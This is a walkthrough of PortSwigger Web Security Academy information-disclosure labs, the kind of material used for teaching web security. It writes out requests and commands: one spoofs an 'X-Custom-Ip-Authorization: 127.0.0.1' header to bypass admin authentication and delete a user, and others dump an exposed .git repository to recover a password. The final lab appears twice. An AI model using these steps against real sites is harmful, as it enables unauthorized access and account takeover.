\#01 Information disclosure in error messages
=============================================

This lab's verbose error messages reveal that it is using a vulnerable version
of a third-party framework. To solve the lab, obtain and submit the version
number of this framework.

References:

-   https://portswigger.net/web-security/information-disclosure/exploiting



 

To generate an error I sent a string in the following request, which expects an
integer:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /product?productId=aaa
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

\#02 Information disclosure on debug page
=========================================

This lab contains a debug page that discloses sensitive information about the
application. To solve the lab, obtain and submit the SECRET_KEY environment
variable.

References:

-   https://portswigger.net/web-security/information-disclosure/exploiting



 

We find the debug page in “/cgi-bin/phpinfo.php”:



 

We can find the secret key ("8f4xrr692ckcxycofkaupwwu37cse6io") in the
“Environment” section:



 

\#03 Source code disclosure via backup files
============================================

This lab leaks its source code via backup files in a hidden directory. To solve
the lab, identify and submit the database password, which is hard-coded in the
leaked source code.

References:

-   https://portswigger.net/web-security/information-disclosure/exploiting



 

There is a /robots.txt file:



 

There is a /backup endpoint:



 

We can read the file and fine the database password
“td510drfnep124ibalwc0xw32d1cp3or”:



 

\#04 Authentication bypass via information disclosure
=====================================================

This lab's administration interface has an authentication bypass vulnerability,
but it is impractical to exploit without knowledge of a custom HTTP header used
by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's
authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/information-disclosure/exploiting



 

After logging in, send a request with the TRACE HTTP method, which reveals the
header “X-Custom-IP-Authorization”:



 

It is possible to access /admin with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

And then delete the user with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin/delete?username=carlos HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

\#05 Information disclosure in version control history
======================================================

This lab discloses sensitive information via its version control history. To
solve the lab, obtain the password for the administrator user then log in and
delete Carlos's account.

Reference:
https://portswigger.net/web-security/information-disclosure/exploiting



 

Generated link:
https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/

The directory .git/ exists and allows directory listing:



 

Download the gitdumper script
(https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh)
and then the .git repo:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash gitdumper.sh https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/.git/ /tmp/a/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

There are sensitive files deleted in the latest commit:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cd /tmp/a
git status
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

Then we revert the previous commit and read the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git log
git reset --hard d3e84943424222ce64de7da0d797b7dfdef39ea1
cat admin.conf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



 

Then we access with credentials administrator:wy0szsn75q5jqn0w70bu and delete
the user:



 


# 21 - Information disclosure in version control history

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

---------------------------------------------

Reference: https://portswigger.net/web-security/information-disclosure/exploiting


---------------------------------------------

Generated link: https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/

The directory .git/ exists and allows directory listing:


Download the gitdumper script (https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) and then the .git repo:

```
bash gitdumper.sh https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/.git/ /tmp/a/
```


There are sensitive files deleted in the latest commit:

```
cd /tmp/a
git status
```


Then we revert the previous commit and read the file:

```
git log
git reset --hard d3e84943424222ce64de7da0d797b7dfdef39ea1
cat admin.conf
```


Then we access with credentials administrator:wy0szsn75q5jqn0w70bu and delete the user:


